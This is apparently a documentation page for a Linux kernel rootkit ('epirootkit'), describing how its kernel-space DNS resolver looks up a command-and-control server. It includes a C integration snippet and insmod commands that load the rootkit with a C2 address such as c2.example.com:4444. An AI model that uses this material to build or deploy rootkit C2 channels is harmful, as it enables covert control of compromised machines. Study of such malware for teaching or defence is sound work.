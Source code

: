 ```yaml
---
title: "DNS Resolution"
description: "Kernel-space domain name resolution for flexible C2 connectivity"
icon: "globe"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 514
---
```


# DNS Resolution

The rootkit includes a kernel-space DNS resolver that resolves domain names to IP addresses for C2 server connections.

## Overview

The DNS resolver:
- Resolves domain names to IP addresses in kernel space
- Uses UDP DNS queries to 8.8.8.8
- Automatically falls back to direct IP if address is already an IP
- Supports A record queries for IPv4 addresses

## Implementation

### Files
- `rootkit/network/dns_resolver.c` - DNS client implementation
- `rootkit/network/dns_resolver.h` - API header

### Key Function

```c
int kernel_dns_resolve(const char *hostname, u32 *ip_addr);
```

**Parameters:**
- `hostname`: Domain name to resolve
- `ip_addr`: Pointer to store resolved IP (network byte order)

**Returns:** 0 on success, negative error code on failure

### Process

1. Create UDP socket in kernel space
2. Build DNS query packet (A record lookup)
3. Send query to 8.8.8.8:53
4. Parse response and extract IPv4 address

### Integration

The socket connection code automatically detects IP vs domain:

```c
if (!in4_pton(config.address, -1, (u8*)&server_addr.sin_addr.s_addr, -1, NULL)) {
    /* Not an IP - resolve domain */
    ret = kernel_dns_resolve(config.address, &target_ip);
    if (ret < 0) return ret;
    server_addr.sin_addr.s_addr = target_ip;
}
```

## Usage

### Domain name:
```bash
sudo insmod epirootkit.ko address=c2.example.com port=4444
```

### IP address (bypasses DNS):
```bash
sudo insmod epirootkit.ko address=192.168.1.100 port=4444
```

## Technical Details

### DNS Protocol
- Protocol: UDP
- Server: 8.8.8.8:53
- Query type: A records only
- Query ID: 0x1234 (static)
- Buffer size: 256 bytes

